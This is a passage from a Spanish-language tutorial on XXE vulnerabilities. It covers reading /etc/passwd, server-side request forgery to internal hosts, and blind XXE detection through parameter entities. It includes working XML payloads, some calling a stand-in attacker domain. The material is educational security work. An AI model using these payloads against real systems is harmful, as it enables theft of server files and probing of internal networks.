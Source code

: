 Este payload XXE defina una entidad externa "&xxe;" cuyo valor es el contenido del archivo "/etc/passwd" y utiliza la entidad dentro del valor de "productId". Esto hace que la respuesta de la aplicación incluya el contenido del archivo.

## Explotación de XXE para realizar ataques SSRF
Además de la recuperación de datos, estos ataques podemos utilizarlos para realizar una falsificación de solicitudes del lado del servidor (SSRF). Esta vulnerabilidad es potencialmente grave en la que podemos inducir a la aplicación a realizar solicitudes HTTP a cualquier URL a la que el servidor pueda acceder.

Para explotar XXE realizando un ataque SSRF, deberemos definir una entidad XML externa utilizando la URL a la que deseamos dirigirnos y utilizar la entidad definida dentro de un valor de datos. Si podemos usar la entidad definida dentro de un valor de datos que se devuelve en la respuesta de la aplicación, podremos ver la respuesta desde la URL dentro de la respuesta de la aplicación y, por lo tanto, obtener una interacción con el sistema de back-end. De lo contrario, solo podremos realizar ataques SSRF ciegos.

En el siguiente ejemplo XXE, la entidad externa hará que el servidor realice una solicitud HTTP de back-end a un sistema interno dentro de la infraestructura de la organización:
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

## Vulnerabilidades XXE ciegas
Muchas instancias de esta vulnerabilidad son ciegas. Esto significa que la aplicación no devuelve valores de ninguna entidad externa definida en sus respuestas, por lo que no es posible la recuperación de archivos del servidor.

Estas se pueden detectar y explotar, pero se requieren técnicas más avanzadas. A veces, podemos usar las técnicas OOB para encontrar vulnerabilidades y explotarlas para filtrar datos. Y a veces podemos desencadenar errores de análisis de XML que conducen a la divulgación de datos confidenciales dentro de los mensajes de error.

### Detectando vulnerabilidades XXE ciegas fuera de banda (OAST)
A menudo, podemos detectar XXE ciegos utilizando la misma técnica que para los ataques XXE SSRF pero activando la interacción de red fuera de banda con un sistema que controlamos. Por ejemplo, definiendo una entidad externa de la siguiente manera:
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```
Luego haríamos uso de la entidad definida en un valor de datos dentro del XML.

Este ataque XXE hace que el servidor realice una solicitud HTTP de back-end a la URL especificada. Podemos monitorizar la búsqueda DNS resultante y la solicitud HTTP y, por lo tanto, detectar que el ataque XXE fue exitoso.

A veces, los ataques XXE que utilizan entidades normales se bloquean debido a algunas validaciones de entrada por parte de la aplicación o algún endurecimiento del analizador XML que se está utilizando. En esta situación, es posible que podamos utilizar entidades de parámetros XML en su lugar. Las entidades de parámetros XML son un tipo especial de entidad XML a la que solo podemos hacer referencia en otro lugar dentro de la DTD. Para los propósitos presentes, solo necesitamos saber dos cosas. Primero, la declaración de una entidad de un parámetro XML incluye el carácter de porcentaje antes del nombre de la entidad:
```
<!ENTITY % myparameterentity "my parameter entity value" >
```
Y en segundo lugar, se hace referencia a las entidades de parámetros utilizando el carácter de porcentaje en lugar del ampersand habitual:
```
%myparameterentity;
```
Esto significa que podemos realizar una prueba de XXE ciego mediante la detección fuera de banda a través de entidades de parámetros XML de la siguiente manera:
```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```